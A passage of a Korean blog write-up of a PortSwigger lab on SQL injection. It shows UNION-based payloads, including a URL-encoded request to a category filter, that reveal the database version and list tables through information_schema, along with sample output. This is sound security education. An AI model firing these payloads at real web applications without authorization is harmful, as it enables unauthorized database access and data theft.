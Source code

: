 위의 표는 주요 데이터베이스 타입에 따른 데이터베이스 버전을 조사하는 쿼리이다.

<br>

`' UNION SELECT @@version--`

위와 같이 `UNION` 공격을 이용할 수 있다.

<br>

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

위는 앞선 입력에 대한 반환되는 결과이다. 이 경우에는 데이터베이스가 Microsoft SQL Server이고 사용된 버전을 확인할 수 있다.

<br>

## 🚩Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

앞선 랩과 같이 가장 먼저 테이블의 컬럼 수를 조사해야 한다. UNION 공격을 통해 컬럼이 2개 존재함을 알 수 있다.

<br>

두 번째로 컬럼 중 문자열 데이터를 포함한 컬럼을 조사해야 한다. 마찬가지로 UNION 공격을 통해 두 컬럼 모두 문자열 데이터를 포함하고 있다는 사실을 알 수 있다.

<br>

`/filter?category='+UNION+SELECT+@@version,NULL+--+`

이제 데이터베이스의 버전을 조사할 수 있는 `@@version`을 포함하여 위와 같이 페이로드를 작성하고 경로로 요청을 해보자.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/f3cc1659-20d9-4eac-abae-760b207fd1ac)

위와 같이 데이터베이스의 버전을 획득할 수 있고 문제를 해결할 수 있다.

<br>

## Listing the contents of the database

Oracle을 제외한 대부분의 데이터베이스 타입은 information schema라고 불리는 집합이 있다. 이는 데이터베이스에 대한 정보를 제공한다.

<br>

`SELECT * FROM information_schema.tables`

예를 들어, `information_schema.tables`를 쿼리하여 데이터베이스 내에 테이블을 나열할 수 있다.

<br>

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
